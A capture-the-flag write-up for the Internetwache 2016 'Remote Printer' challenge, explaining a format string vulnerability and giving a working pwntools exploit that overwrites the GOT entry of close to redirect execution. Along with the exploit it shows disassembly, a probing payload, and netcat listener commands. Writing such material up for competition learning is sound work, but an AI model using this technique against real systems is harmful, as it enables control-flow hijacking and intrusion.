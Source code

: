 # Internetwache CTF 2016 : Remote Printer

**Category:** Exploit
**Points:** 80
**Solves:** 101
**Description:**

> Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.
>
>
> Attachment: [exp80.zip](./exp80.zip)
>
>
> Service: 188.166.133.53:12377


## Write-up

So this remote printer takes an address and a port and connects to the remote
service. It then reads some data and outputs it. Well let's just point it to
itself:

```
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:12377
Thank you, I'm trying to print 127.0.0.1:12377 now!
This is a remote printer!
```

The last line is the input from itself. So we probably need a listener
reachable via the internet.

The binary itself is rather small, it just consists of the `main` function and
`0x08048786`. The main function uses scanf to read the ip address and port and
calls the second function which connects to the given ip address and port.
Then receives up to `0x2000` bytes of data and then prints it. Let's take a
look at the later one:

```
0x08048815      6a00           push 0
0x08048817      6800200000     push 0x2000
0x0804881c      8d85e4dfffff   lea eax, [ebp-local_2055]
0x08048822      50             push eax
0x08048823      ff75f4         push dword [ebp - 0xc]
0x08048826      e885fdffff     call sym.imp.recv         ; recv 0x2000 to stack

[...]

0x08048844      83ec0c         sub esp, 0xc
0x08048847      8d85e4dfffff   lea eax, [ebp-local_2055]
0x0804884d      50             push eax
0x0804884e      e88dfcffff     call sym.imp.printf      ; input
0x08048853      83c410         add esp, 0x10
0x08048856      83ec0c         sub esp, 0xc
0x08048859      ff75f4         push dword [ebp - 0xc]
0x0804885c      e85ffdffff     call sym.imp.close
0x08048861      83c410         add esp, 0x10
0x08048864      90             nop
```

We can see that the buffer, which is located on the stack, is printed using
`printf`... oh. Classic format string vulnerability. Should be easy.

```
$ python2 -c 'print "ABCD" + ".%p"*100' | nc -vv -l -p 4444
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:X.X.X.X
Enter port:4444
Thank you, I'm trying to print X.X.X.X:4444 now!
ABCD.0xffffbcec.0x2000.(nil).(nil).(nil).(nil).0x44434241.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0xa.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil)
```

So it's definitely a format string vulnerability and we can see that at offset
7 is the start of our format string. So that's where we can put the addresses
we want to write to.

We can see that immediately after the call to `printf` there is a call to
`close`. So we do the usual: Overwrite `GOT` entry of `close` with something of
our liking to take over control flow. Because the organizers were nice they
left us some dead code lying around that will print us the flag at
`0x08048867`. So we'll just redirect control flow there.

```python
from pwn import *  # NOQA

velf = ELF("./RemotePrinter")
gotclose = velf.got["close"]

# uses two 2-byte writes to keep printed garbage at minimum
fmtstr = p32(gotclose)
fmtstr += p32(gotclose + 2)
target = 0x08048867
x = 0x0804 - 8
y = 0x8867 - 8 - x
fmtstr += "%{}c%8$hn%{}c%7$hn".format(x, y)

log.info("trying to write to got entry @ {}".format(hex(gotclose)))
log.info("overwriting with function {}".format(hex(target)))

log.info("using format string: \n" + hexdump(fmtstr))

with open("./payload", "wb") as f:
    f.write(fmtstr)
    f.write("\n")

# use with
# cat payload | nc -v -l -p 4444
```

And we have the flag:

```
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```

## Other write-ups and resources

* <https://github.com/0xbkth/ctf/blob/master/IW/exp80_IW/writeup.md>
* <https://www.xil.se/post/internetwache-2016-exp80-kbeckmann/>
* <https://github.com/Kileak/CTF/tree/master/2016/internetwache/exp/remoteprinter>
* <https://losfuzzys.github.io/writeup/2016/02/21/iwctf2016-remote-printer/>
